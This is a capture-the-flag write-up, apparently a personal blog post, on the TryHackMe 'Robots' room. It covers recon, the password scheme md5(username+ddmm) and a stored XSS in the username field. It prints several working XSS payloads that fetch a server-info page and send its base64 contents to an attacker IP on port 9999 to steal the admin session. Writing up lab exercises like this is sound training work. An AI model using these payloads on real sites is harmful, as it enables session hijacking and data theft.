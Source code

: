 ```yaml
---
title: TryHackMe Mayhem  
date: 2025-08-18 
tags: [tryhackme, ctf]  
author: nandakishor  
---
```


# Robots



## initial recon

![alt text](../assets/images/robots/image.png)

We can see there are two 3 ports open , port 22 is is open so there is an ssh is availabele , 

![alt text](<../assets/images/robots/image copy.png>)

Http apche is runnning on port 80 , and also we have a robots.txt available.


Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self


These are the directorires

![alt text](<../assets/images/robots/image copy 2.png>)

Nothing intersting in directory scanning, there is one admin page anyways, 

Register as a user to get more info

![alt text](<../assets/images/robots/image copy 3.png>)
![alt text](<../assets/images/robots/image copy 4.png>)

if this is the user name and date of birth then we can calculate the MD5 hash of the ID

By md5(username+ddmm)

![alt text](<../assets/images/robots/image copy 5.png>)


Bc2c9db13add30a5f630ed3159f30ac9


![alt text](<../assets/images/robots/image copy 6.png>)


I have registered as a user , we can see here an admin user is there, lets login to the user
![alt text](<../assets/images/robots/image copy 7.png>)

The name guest is displaying here 

From the source code we can see ther is a variable called username to store the uservalue and that is reflected to this page after sumbitting the credentials.
So it could be vulnerable to xss , we can try to register another user with creds


Username: <script>alert("hacked");</script>
DOB: 01/01/2002

Then the password could be "b2ab116aa3d14df99053e490438ac0a8"

![alt text](<../assets/images/robots/image copy 8.png>)

So we can execute quries

Although this XSS allows us to send requests from the admin user, we can’t retrieve the cookie of the admin account because it’s HTTPOnly, which means we can’t retrieve it via JavaScript.

![alt text](<../assets/images/robots/image copy 9.png>)
![alt text](<../assets/images/robots/image copy 10.png>)

<script>(async()=>{try{const r=await fetch('/harm/to/self/server_info.php');if(!r.ok)throw`HTTP ${r.status}`;const d=await r.text();await fetch(`http://10.17.86.42:9999/${btoa(d)}`,{mode:'no-cors'})}catch(e){console.error(e)}})();</script>

Or

<script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(data=>fetch('http://10.17.86.42:9999/'+btoa(data)))</script>

Or 

<script>fetch('/harm/to/self/server_info.php').then(response => {return response.text();}).then(data => {fetch("http://10.14.86.42:9999/"+btoa(data));})</script>




This is the payload that I have used

![alt text](<../assets/images/robots/image copy 11.png>)


Its base64 encoded we can decode this go get the session id for admin


![alt text](<../assets/images/robots/image copy 12.png>)

We can edit the session id of our user login and get the admin user 


![alt text](<../assets/images/robots/image copy 13.png>)

![alt text](<../assets/images/robots/image copy 14.png>)
 now we logged in as admin user


I have used fuff to enumerate more directory that can access with admin, 

![alt text](<../assets/images/robots/image copy 15.png>)

We can see and admin.php page


![alt text](<../assets/images/robots/image copy 16.png>)

We have a test url enrty. To we could possible get a C2 by this
